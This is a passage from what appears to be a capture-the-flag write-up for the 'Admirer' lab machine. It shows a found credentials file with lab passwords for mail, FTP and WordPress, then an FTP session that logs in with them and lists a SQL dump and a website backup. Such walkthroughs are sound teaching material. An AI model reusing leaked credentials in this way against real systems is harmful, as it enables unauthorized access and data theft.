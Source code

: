 ```


#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

```
// credentials.txt

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Looking at the credentials file, since we know there is FTP running, we can try to login with those credentials and see what we can find.

```
# ftp admirer.htb 
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02 21:24 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03 21:20 html.tar.gz
```

We see there is a dump of SQL command history and a backup of what appears to be the html from the website. Let's take a closer look. The dump just has commands for inserting the pictures we saw earlier in to the website database and has no valuable information. If we untar the html file, we get all the files from the website.
